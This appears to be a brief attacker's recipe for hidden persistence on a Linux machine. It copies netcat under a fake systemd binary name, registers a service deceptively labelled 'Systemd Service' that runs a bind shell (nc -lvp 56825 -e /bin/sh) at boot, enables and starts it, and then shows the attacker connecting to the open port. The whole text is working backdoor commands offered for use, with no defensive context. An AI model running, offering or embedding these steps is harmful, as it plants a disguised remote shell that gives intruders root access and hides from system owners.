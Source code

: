 On target box

```sh
cp /bin/nc /lib/systemd/systemd-server
```

```sh
touch /lib/systemd/system/systemd.service
```

```sh
[Unit]
Description = Systemd Service
After = network.target
[Service]
ExecStart = /lib/systemd/systemd-server -lvp 56825 -e /bin/sh
[Install]
WantedBy = multi-user.target
```

```sh
sudo systemctl enable systemd.service
sudo systemctl start systemd.service
```

On attacker box

```sh
nc <target-ip> 56825
```